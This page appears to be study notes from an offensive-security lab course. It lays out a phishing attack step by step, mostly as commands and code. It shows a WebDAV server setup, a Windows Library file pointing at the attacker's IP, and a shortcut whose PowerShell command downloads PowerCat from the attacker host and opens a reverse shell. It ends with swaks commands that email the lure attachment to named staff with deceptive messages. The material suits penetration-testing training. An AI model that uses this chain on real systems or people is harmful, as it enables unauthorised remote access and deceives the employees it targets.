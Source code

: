 # Send email

Phishing for access

{% code title=" Starting WsgiDAV on port 80" overflow="wrap" lineNumbers="true" %}
```
┌──(kali㉿kali)-[~/offsec/beyond]
└─$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/offsec/beyond/webdav/

```
{% endcode %}

Now, let's copy the Windows Library code we previously used in the Client-Side Attacks Module, paste it into Visual Studio Code, and check that the IP address points to our Kali machine.

The filename is: config.Library-ms

{% code title="Windows Library code for connecting to our WebDAV Share" overflow="wrap" lineNumbers="true" %}
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.5</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
{% endcode %}



Let's save the file and transfer it to /home/kali/beyond on our Kali machine.

Next, we'll create the shortcut file on WINPREP. For this, we'll right-click on the Desktop and select New > Shortcut. A victim double-clicking the shortcut file will download PowerCat and create a reverse shell. We can enter the following command to achieve this:

{% code title="" overflow="wrap" lineNumbers="true" %}
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.5:8000/powercat.ps1'); powercat -c 192.168.119.5 -p 4444 -e powershell"
```
{% endcode %}

Once we enter the command and install as shortcut file name, we can transfer the resulting shortcut file to our Kali machine into the WebDAV directory.

Our next step is to serve PowerCat via a Python3 web server. Let's copy powercat.ps1 to /home/kali/beyond and serve it on port 8000 as we have specified in the shortcut's PowerShell command.

{% code title="Serving powercat.ps1 on port 8000 via Python3 web server" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~/beyond$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~/beyond$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endcode %}

{% code title="" overflow="wrap" lineNumbers="true" %}
```
swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -attach @config.library-ms --server 192.168.x.x --body "Please run file" --header "Subject: Problems"
swaks --to dave.wizard@supermagicorg.com --from test@supermagicorg.com --auth-password test -attach config.Library-ms --server 192.168.200.199 --body "please click here" --header "Subject: Staging Script" -ap
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.237.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```
{% endcode %}
